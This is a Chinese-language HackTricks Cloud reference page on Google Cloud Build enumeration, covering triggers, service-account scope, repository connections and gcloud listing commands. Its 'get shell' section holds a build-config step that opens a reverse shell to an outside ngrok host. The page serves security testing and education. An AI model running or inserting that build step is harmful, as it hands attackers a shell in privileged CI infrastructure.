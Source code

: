 # GCP - Cloud Build Enum

<details>

<summary><strong>从零开始学习AWS黑客技术，成为专家</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE（HackTricks AWS红队专家）</strong></a><strong>！</strong></summary>

支持HackTricks的其他方式：

- 如果您想看到您的**公司在HackTricks中做广告**或**下载PDF格式的HackTricks**，请查看[**订阅计划**](https://github.com/sponsors/carlospolop)!
- 获取[**官方PEASS & HackTricks周边产品**](https://peass.creator-spring.com)
- 探索[**PEASS家族**](https://opensea.io/collection/the-peass-family)，我们的独家[NFTs收藏品](https://opensea.io/collection/the-peass-family)
- **加入** 💬 [**Discord群**](https://discord.gg/hRep4RUj7f) 或 [**电报群**](https://t.me/peass) 或在**Twitter**上关注我们 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**。**
- 通过向[**HackTricks**](https://github.com/carlospolop/hacktricks)和[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github仓库提交PR来分享您的黑客技巧。

</details>

## 基本信息

Google Cloud Build是一个托管的CI/CD平台，**自动化软件构建**和发布流程，与**源代码仓库**集成，并支持多种编程语言。它允许开发人员**自动构建、测试和部署代码**，同时提供灵活性来定制构建步骤和工作流程。

每个Cloud Build触发器都与一个Cloud仓库相关联，或直接连接到外部仓库（Github、Bitbucket和Gitlab）。

{% hint style="success" %}
我没有看到从这里或Cloud仓库中窃取Github/Bitbucket令牌的方法，因为当下载仓库时，它是通过[https://source.cloud.google.com/](https://source.cloud.google.com/) URL访问的，而Github不是由客户端访问的。
{% endhint %}

### 事件

Cloud Build可以在以下情况下触发：

- **推送到分支**：指定分支
- **推送新标签**：指定标签
- **拉取请求**：指定接收PR的分支
- **手动调用**
- **Pub/Sub消息**：指定主题
- **Webhook事件**：将公开一个HTTPS URL，请求必须使用密钥进行身份验证

### 执行

有3个选项：

- 一个yaml/json，**指定要执行的命令**。通常是：`/cloudbuild.yaml`
- 只能在Web控制台和CLI中“内联”指定一个
- 最常见的选项
- 适用于未经身份验证的访问
- 一个**Dockerfile**用于构建
- 一个**Buildpack**用于构建

### SA权限

**服务账号具有`cloud-platform`范围**，因此可以**使用所有特权**。如果**未指定SA**（例如在提交时），将使用**默认SA** `<proj-number>@cloudbuild.gserviceaccount.com`。

默认情况下不会授予任何权限，但很容易授予一些权限：

<figure><img src="../../../.gitbook/assets/image (2) (1) (1).png" alt=""><figcaption></figcaption></figure>

### 批准

可以配置Cloud Build以**要求批准构建执行**（默认情况下已禁用）。

### 连接和仓库

可以通过以下方式创建连接：

- **GitHub：**它将显示一个OAuth提示，请求权限以**获取Github令牌**，该令牌将存储在**Secret Manager**中。
- **GitHub企业版：**它将要求安装**GithubApp**。将在此项目中创建并存储来自您的GitHub企业主机的**身份验证令牌**作为**Secret Manager**密钥。
- **GitLab / 企业版：**您需要提供API访问令牌和读API访问令牌，这将存储在**Secret Manager**中。

生成连接后，您可以使用它来**链接Github账户有权限访问的仓库**。

此选项可通过按钮访问：

<figure><img src="../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

{% hint style="success" %}
请注意，通过此方法连接的仓库**仅在使用第二代触发器时可用**。
{% endhint %}

### 连接仓库

这与**`连接`**不同。这允许以**不同**方式访问**Github或Bitbucket**仓库，但**不会生成连接对象，但会生成一个仓库对象（第一代）**。

此选项可通过按钮访问：

<figure><img src="../../../.gitbook/assets/image (2) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### 存储

有时Cloud Build会**生成一个新存储来存储触发器的文件**。例如，在GCP提供的示例中发生了这种情况：
```bash
git clone https://github.com/GoogleCloudBuild/cloud-console-sample-build && \
cd cloud-console-sample-build && \
gcloud builds submit --config cloudbuild.yaml --region=global
```
### 获取 shell

创建了一个名为 [security-devbox\_cloudbuild](https://console.cloud.google.com/storage/browser/security-devbox\_cloudbuild;tab=objects?forceOnBucketsSortingFiltering=false\&project=security-devbox) 的存储桶，用于存储要使用的 `.tgz` 文件。
```yaml
steps:
- name: bash
script: |
#!/usr/bin/env bash
bash -i >& /dev/tcp/5.tcp.eu.ngrok.io/12395 0>&1
options:
logging: CLOUD_LOGGING_ONLY
```
### 枚举

您可以在构建配置和日志中找到敏感信息。
```bash
# Get configured triggers configurations
gcloud builds triggers list # Check for the words github and bitbucket
gcloud builds triggers describe <trigger-name>

# Get build executions
gcloud builds list
gcloud builds describe <build-uuid> # Get even the build yaml if defined in there
gcloud builds log <build-uuid> # Get build logs

# List all connections of each region
regions=("${(@f)$(gcloud compute regions list --format='value(name)')}")
for region in $regions; do
echo "Listing build connections in region: $region"
connections=("${(@f)$(gcloud builds connections list --region="$region" --format='value(name)')}")
if [[ ${#connections[@]} -eq 0 ]]; then
echo "No connections found in region $region."
else
for connection in $connections; do
echo "Describing connection $connection in region $region"
gcloud builds connections describe "$connection" --region="$region"
echo "-----------------------------------------"
done
fi
echo "========================================="
done

# List all worker-pools
regions=("${(@f)$(gcloud compute regions list --format='value(name)')}")
for region in $regions; do
echo "Listing build worker-pools in region: $region"
gcloud builds worker-pools list --region="$region"
echo "-----------------------------------------"
done
```
### 提权

{% content-ref url="../../gcp-security/gcp-privilege-escalation/gcp-cloudbuild-privesc.md" %}
[gcp-cloudbuild-privesc.md](../../gcp-security/gcp-privilege-escalation/gcp-cloudbuild-privesc.md)
{% endcontent-ref %}

### 未经身份验证访问

{% content-ref url="../../gcp-security/gcp-unaunthenticated-enum-and-access/gcp-cloud-build-unauthenticated-enum.md" %}
[gcp-cloud-build-unauthenticated-enum.md](../../gcp-security/gcp-unaunthenticated-enum-and-access/gcp-cloud-build-unauthenticated-enum.md)
{% endcontent-ref %}

### 漏洞利用后期阶段

{% content-ref url="../../gcp-security/gcp-post-exploitation/gcp-cloud-build-post-exploitation.md" %}
[gcp-cloud-build-post-exploitation.md](../../gcp-security/gcp-post-exploitation/gcp-cloud-build-post-exploitation.md)
{% endcontent-ref %}

<details>

<summary><strong>从零开始学习AWS黑客技术，成为专家</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

支持HackTricks的其他方式：

* 如果您想在HackTricks中看到您的**公司广告**或**下载PDF版本的HackTricks**，请查看[**订阅计划**](https://github.com/sponsors/carlospolop)!
* 获取[**官方PEASS & HackTricks周边产品**](https://peass.creator-spring.com)
* 探索[**PEASS家族**](https://opensea.io/collection/the-peass-family)，我们的独家[**NFTs**](https://opensea.io/collection/the-peass-family)
* **加入** 💬 [**Discord群**](https://discord.gg/hRep4RUj7f) 或 [**电报群**](https://t.me/peass) 或 **关注**我们的**Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* 通过向[**HackTricks**](https://github.com/carlospolop/hacktricks)和[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github仓库提交PR来分享您的黑客技巧。

</details>

